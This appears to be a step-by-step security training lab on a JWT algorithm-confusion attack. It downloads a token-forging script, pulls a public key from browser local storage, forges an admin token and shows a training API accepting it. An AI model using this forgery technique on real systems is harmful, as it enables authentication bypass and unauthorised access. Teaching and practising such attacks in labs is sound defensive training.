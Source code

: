 ## Algorithm Confussion
##### Step 1:

* Open Terminal
* Run `mkdir jwt_exp`
* Run: `cd jwt_exp`
* Run: `wget https://raw.githubusercontent.com/we45/AppSecEssentials/master/instructions/JWT/Algorithm-Confusion/token_gen.js`
* Run `npm install jsonwebtoken@4.2.0 colors`

##### Step 2:

* Open browser

##### Step 3:

* open `http://sls-training-ui.s3-website-us-east-1.amazonaws.com/` to access the XML-Uploder application.

![](img/login-page.png)

##### Step 4:

* Right click on top of the browser and click on `Web Developer` to select the `Storage Inspect` tab.

![](img/local-storage.png)

##### Step 5:

* Click on `Local-Storage` icon on left, and expand.

    * Copy the `guest_public_key` and `guest_token`
    
    ![](img/click-local-storage.png)


##### Step 6:
* Open Terminal and run `pbpaste | base64 -d >> public_key.pem`

##### Step 7: 

* Run `node token_gen.js --file public_key.pem --username admin`

   **Note:** Copy the token


    ```commandline
    root@we45-VirtualBox:/home/we45# node token_gen.js --file public_key.pem --username admin

    This is your token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwic3RhdHVzIjoiaGFja2VkIiwiaWF0IjoxNTM3ODk1Mjc0fQ.XFhJRm1W_58ulrgVJ9_vy7LsGy14VICXCLMQsh8g-nE

    ```

##### Step 8:

* Run `http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/confusion Authorization:<copied token>`

    ```commandline
    root@we45-VirtualBox:/home/we45# http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/confusion Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwic3RhdHVzIjoiaGFja2VkIiwiaWF0IjoxNTM3ODgwMjg2fQ.29E-i4QD21pvpA41oEJx60haJoOpgqbpzbvE6OK-Exg
    HTTP/1.1 200 OK
    Access-Control-Allow-Credentials: true
    Access-Control-Allow-Headers: Content-Type,Authorization,X-Amz-Date,X-Api-Key,X-Amz-Security-Token
    Access-Control-Allow-Methods: GET,OPTIONS
    Access-Control-Allow-Origin: *
    Access-Control-Max-Age: 0
    Connection: keep-alive
    Content-Length: 114
    Content-Type: application/json
    Date: Tue, 25 Sep 2018 17:12:14 GMT
    Via: 1.1 5bc1c4711561ec9e65e05f2ef18f000a.cloudfront.net (CloudFront)
    X-Amz-Cf-Id: JquwGQ1bb1vr5ev4oFF6R8e5MqbzM-YqyVvEJJKaz7fPN0nRlly3rw==
    X-Amzn-Trace-Id: Root=1-5baa6c6d-a196d3961775849ef9a9ffc4;Sampled=1
    X-Cache: Miss from cloudfront
    X-Success-Request: true
    x-amz-apigw-id: NyXhKFUHoAMFscA=
    x-amzn-RequestId: 25718e25-c0e6-11e8-86e5-dddb808cd601
    
    {
        "decoded": {
            "iat": 1537880286, 
            "status": "hacked", 
            "username": "admin"
        }, 
        "success": "You are successfully authenticated"
    }
    
    ```

